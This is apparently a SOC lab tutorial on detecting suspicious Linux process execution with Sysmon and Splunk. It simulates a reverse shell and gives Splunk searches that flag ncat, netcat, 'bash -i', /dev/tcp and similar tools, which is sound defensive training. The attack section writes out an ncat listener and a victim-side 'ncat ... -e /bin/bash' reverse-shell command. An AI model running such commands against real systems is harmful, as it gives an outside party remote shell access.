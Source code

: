 # Monitoring and Investigation of Suspicious Process Execution (Linux)

## Inputs Configuration for Splunk

```sh
nano /opt/splunkforwarder/etc/system/local/inputs.conf
```

```sh
[monitor:///var/log/sysmon.log]
index = linux_os_logs
sourcetype = sysmon
disabled = false
```

- Installation of **Sysmon for Linux** with an advanced XML configuration to detect multiple MITRE ATT&CK techniques.

## Install Sysmon for Linux

- [Sysmon for Linux](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [Recommended base config: MSTIC Sysmon Config](https://raw.githubusercontent.com/microsoft/MSTIC-Sysmon/main/linux/configs/main.xml)

```sh
# Download Microsoft packages repo
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb

# Update package list
sudo apt-get update

# Install Sysmon for Linux
sudo apt-get install sysmonforlinux -y
```

## Configure Sysmon with Advanced Rules

#### Create the configuration file

```sh
nano sysmon-config.xml
```

## Paste the advanced XML configuration

- This configuration covers multiple `MITRE ATT&CK` techniques for `process creation, network connections, file creation, persistence, environment injection, and process termination`.

- [https://github.com/thierno953/SOC_ANALYST/blob/main/Splunk_Ubuntu/sysmon-config.xml](https://github.com/thierno953/SOC_ANALYST/blob/main/Splunk_Ubuntu/sysmon-config.xml)

## Start Sysmon with the configuration

```sh
sudo sysmon -i /etc/sysmon-config.xml
sudo systemctl restart sysmon
sudo systemctl status sysmon

sudo sysmon -c /etc/sysmon-config.xml

sudo journalctl -u sysmon.service -f
```

## Simulate an Attack (Reverse Shell)

#### On attacker machine

```sh
sudo apt install ncat net-tools -y
sudo ncat -lnvp 4444 -k
```

#### On victim machine

```sh
sudo apt install ncat net-tools -y
ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash
```

#### Verify the connection

```sh
lsof -i :4444
netstat -tulnp | grep 4444
```

## Analysis in Splunk

#### a. All Sysmon logs:

```sh
index="linux_os_logs" process=sysmon
```

![Splunk](/Splunk_Ubuntu/assets/06.png)

#### b. Suspicious command execution:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
(ncat OR netcat OR "bash -i" OR curl OR wget OR "python -c" OR "perl -e" OR "php -r" OR socat OR "/dev/tcp" OR "chmod 777" OR scp)
```

![Splunk](/Splunk_Ubuntu/assets/07.png)

#### c. Command stats by host and time:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)"
| stats count by host, command_executed, _time
| sort - count
```

![Splunk](/Splunk_Ubuntu/assets/08.png)

#### d. Timechart of suspicious commands:

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)"
| timechart span=30m count by command_executed
```

![Splunk](/Splunk_Ubuntu/assets/09.png)

## Persistence monitoring (cron/systemd changes):

#### a. Cron and systemd events per host

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| stats count by host, _raw, _time
| sort -_time
```

![Splunk](/Splunk_Ubuntu/assets/10.png)

#### b. Cron/systemd events aggregated hourly

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| bin _time span=1h
| stats count by _time, host
| sort _time
```

![Splunk](/Splunk_Ubuntu/assets/11.png)

#### c. Timechart of cron/systemd events

```sh
index="linux_os_logs" process=sysmon
| where like(_raw, "%/etc/cron%") OR like(_raw, "%/etc/systemd/system%")
| timechart span=1h count by host
```

![Splunk](/Splunk_Ubuntu/assets/12.png)

#### d. Suspicious commands executed

```sh
index="linux_os_logs" process=sysmon
| rex field=_raw "(?i)(?P<command_executed>ncat|netcat|bash -i|curl|wget|python -c|perl -e|php -r|socat|/dev/tcp|chmod 777|scp)\s(?P<command_args>.*)"
| stats count by host, command_executed, command_args, _time
| sort -count
```

![Splunk](/Splunk_Ubuntu/assets/13.png)
